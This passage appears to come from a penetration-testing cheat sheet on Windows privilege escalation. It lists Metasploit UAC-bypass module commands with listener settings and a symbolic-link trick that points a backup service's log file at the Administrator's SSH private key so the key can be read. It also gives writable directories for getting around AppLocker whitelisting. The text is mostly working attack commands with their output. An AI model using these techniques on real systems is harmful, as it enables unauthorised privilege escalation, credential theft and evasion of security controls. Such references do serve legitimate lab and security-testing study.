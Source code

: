 ```bat
use exploit/windows/local/bypassuac

use exploit/windows/local/bypassuac_injection

use exploit/windows/local/bypassuac
set session 1
set lhost 0.0.0.0
set lport 24444
exploit
```

## Special
+ pg-symbolic: backup dir/files(have permission to write/create), create symboliclink to admin ssh key and backup.
+ [symboliclink-testing-tools](https://github.com/googleprojectzero/symboliclink-testing-tools/)

```bash
# backup service, symbolic link to admin ssh key
## wait for a few minutes, read the file.
C:\backup\logs>c:\users\p4yl0ad\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\Users\Administrator\.ssh\id_rsa: 00000158
Press ENTER to exit and delete the symlink


```

## windows security control

### applocker 
+ An application whitelist is a list of approved software applications or executables that are allowed to be present and run on a system. 

```bash
# check 
Get-ApplockerPolicy -Effective -xml

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

$a = Get-ApplockerPolicy -effective
$a.rulecollections

## or registry
HKLM\Software\Policies\Microsoft\Windows\SrpV2

# bypass
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```

